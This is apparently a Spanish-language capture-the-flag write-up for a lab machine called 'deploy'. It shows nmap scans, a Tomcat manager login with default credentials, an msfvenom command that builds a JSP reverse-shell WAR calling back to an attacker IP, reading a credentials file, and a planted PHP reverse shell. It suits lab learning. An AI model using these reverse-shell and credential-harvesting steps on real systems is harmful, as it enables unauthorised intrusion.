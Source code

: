 # Máquina deploy

### Reconocimiento de la Ip de la máquina víctima

![alt text](image.png)

### Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 192.168.42.166

![alt text](image-1.png)

### Servicios y versiones 

sudo nmap -sV --script vuln -p22,80,8080 --min-rate 6000 -vvv 192.168.42.166

![alt text](image-2.png)

### Entramos en la web

![alt text](image-3.png)

### Explotación

Entramos en manager webapp

![alt text](image-4.png)

con las credenciales

tomcat:s3cret

en Kali generamos un reverseshell con msfvenom llamado reverse.war:

msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.42.133 LPORT=443 -f war -o reverse.war

![alt text](image-5.png)

lo subimos en:

![alt text](image-6.png)

nos ponemos en escucha con netcat en el puerto 443 y en la web le damos clic en :

![alt text](image-7.png)

![alt text](image-8.png)

vemos otros usuarios

![alt text](image-9.png)

analizamos el archivo: /etc/tomcat9/tomcat-users.xml

encontramos la contraseña de sa

![alt text](image-10.png)

nos conectamos por ssh con el usuario sa:

![alt text](image-11.png)

creamos un archivo reverse.php en /var/www/html con el código de pentestmonkey

![alt text](image-12.png)

nos ponemos en escucha con el puerto 4444

y accedemos a http://192.168.42.166/reverse.php

![alt text](image-13.png)

accedimos con el usuario toor

![alt text](image-14.png)

### Escalar privilegios

![alt text](image-15.png)

![alt text](image-17.png)

![alt text](image-16.png)

### user.txt

![alt text](image-18.png)

### root.txt

![alt text](image-19.png)

